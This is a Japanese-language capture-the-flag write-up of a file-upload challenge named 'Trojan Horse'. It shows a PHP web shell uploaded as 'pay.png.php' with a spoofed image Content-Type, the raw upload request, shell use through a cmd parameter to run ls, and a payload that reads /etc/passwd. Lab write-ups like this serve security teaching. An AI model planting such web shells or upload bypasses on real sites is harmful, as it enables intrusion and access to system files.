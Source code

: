 # Challenge Name: Trojan Horse
***
画像ファイルをアップロードできるサイト
![aa](https://github.com/xn16h7/CTF/blob/master/img/writeup6.png)

バックドアシェルをアップロードしてみる
色々試した結果ファイル名とContent-Typeを書き換えるとbypassが可能だった
ファイルの中身を見ているときはファイルの先頭に拡張子にあわせて今回だと臼NGとかを入れることでbypassできる可能性があるらしい

ファイル名をとペイロードを下記のようにしてみた。  
queryにcmdパラメータを入れてコマンド実行できる

> pay.png.php
~~~
<?
system($_GET['cmd']);
?>
~~~

Content-Type: application/octet-stream  
⇒Content-Type: image/pngに変更してリクエストを送信することでbypassができる


~~~
POST /trojan/ HTTP/1.1
Host: 18.194.166.81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------250722975826467346882742916592
Content-Length: 650
Origin: http://18.194.166.81
Connection: close
Referer: http://18.194.166.81/trojan/
Upgrade-Insecure-Requests: 1

-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="name"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="email"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="image"; filename="pay.png.php"
Content-Type: image/png

<?
system($_GET['cmd']);
?>
-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="submit"

Submit
-----------------------------250722975826467346882742916592--
~~~

アップロードに成功した。
![aa](https://github.com/xn16h7/CTF/blob/master/img/%E2%91%A1writeup6.png)


下記のようにクエリにしてOSコマンドを実行してみるとlsコマンドが実行できた。
18.194.166.81/trojan/uploads/b804e095f705962280b4b4102d58c3d6.php?cmd=ls
![aa](https://github.com/xn16h7/CTF/blob/master/img/%E2%91%A2writeup6.png)

flagがなかったので
問題文でパスワードがプレーンtextって書いてあったので下記payloadを送ってPHPを実行する。
~~~
<?php
    system("cat /etc/passwd");
?>
~~~
### SBCTF{unr3s7r1c73d_f1l3_upl04d_1s_d4ng3r0us}

